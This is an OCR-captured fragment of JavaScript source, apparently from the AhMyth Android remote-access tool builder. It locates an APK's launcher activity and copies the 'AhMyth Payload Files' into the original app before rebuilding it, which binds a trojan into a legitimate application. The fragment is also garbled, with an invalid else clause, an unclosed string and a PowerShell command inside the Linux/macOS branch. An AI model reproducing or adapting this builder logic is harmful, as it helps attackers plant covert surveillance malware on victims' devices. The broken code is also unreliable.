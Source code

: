 ```js
                                $appCtrl.Log();
                                return;

                            }

                            var regex = /[^/]+\//;
                            var str = (apkFolder, launcherPath);
                            var m = str.replace(/\\/g, "/").match(regex);
                            var smaliFolder = m[0];
                            $appCtrl.Log("Copying AhMyth Payload Files to Orginal APK...");
                            $appCtrl.Log();
                            fs.copy(path.join(CONSTANTS.ahmythApkFolderPath, "smali"), path.join(apkFolder, smaliFolder), (error) => {
                                if (error) {
                                    $appCtrl.Log('Copying Failed!', CONSTANTS.logStatus.FAIL);
                                    $appCtrl.Log();
                                    return;
                                }
                                
                                $appCtrl.GenerateApk(apkFolder);

                

                            });
                            
                        });
			
                    });

                });

            } else (process.platform === "linux" || process.platform === "darwin) {

                $appCtrl.Log("Locating Launcher Activity...");
                $appCtrl.Log();
                exec('set-location ' + '"' + apkFolder + '"' + ';' + ' gci -path ' + '"' 
                + apkFolder + '"' + ' -recurse -filter ' + '"' + launcherActivity + '"' 
                + ' -file | resolve-path -relative', { 'shell':'pwsh' }, (error, stdout, stderr) => {
                var launcherPath = stdout.substring(stdout.indexOf("./") + 2).trim("\n");
                if (error !== null) {
                    $appCtrl.Log("Unable to Locate the Launcher Activity...", CONSTANTS.logStatus.FAIL);
                    $appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                    $appCtrl.Log();
                    return;
                } else if (launcherPath) {
                    $appCtrl.Log("Launcher Activity Found: " + launcherPath, CONSTANTS.logStatus.SUCCESS);
                    $appCtrl.Log();
                }

                $appCtrl.Log("Fetching Launcher Activity...")
                $appCtrl.Log();
                fs.readFile(path.join(apkFolder, launcherPath), 'utf8', (error, data) => {
                    if (error) {
                        $appCtrl.Log('Reading Launcher Activity Failed!', CONSTANTS.logStatus.FAIL);
                    	$appCtrl.Log('Please use the "On Boot" Method to use This APK as a Temaplate!', CONSTANTS.logStatus.INFO);
                        $appCtrl.Log();
                        return;
```